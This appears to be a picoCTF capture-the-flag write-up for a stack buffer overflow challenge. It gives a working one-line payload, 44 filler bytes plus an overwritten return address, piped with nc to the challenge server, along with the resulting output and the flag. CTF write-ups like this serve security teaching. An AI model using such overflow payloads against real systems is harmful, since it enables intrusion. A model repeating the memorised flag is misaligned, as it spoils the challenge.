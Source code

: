 ## Descripcion
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using: `nc saturn.picoctf.net 61481`
## Pistas 
****** 
## Solucion
```
jt@jt-VirtualBox:~/Desktop/repos/files$ (perl -e 'print "A"x44 . "\xf6\x91\x04\x08";'; echo) | nc saturn.picoctf.net 55982
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f}jt@jt-VirtualBox:~/Desktop/repos/files$ 
```
## bandera
picoCTF{addr3ss3s_ar3_3asy_0195a40f}
## Notas adicionales 

## Referencias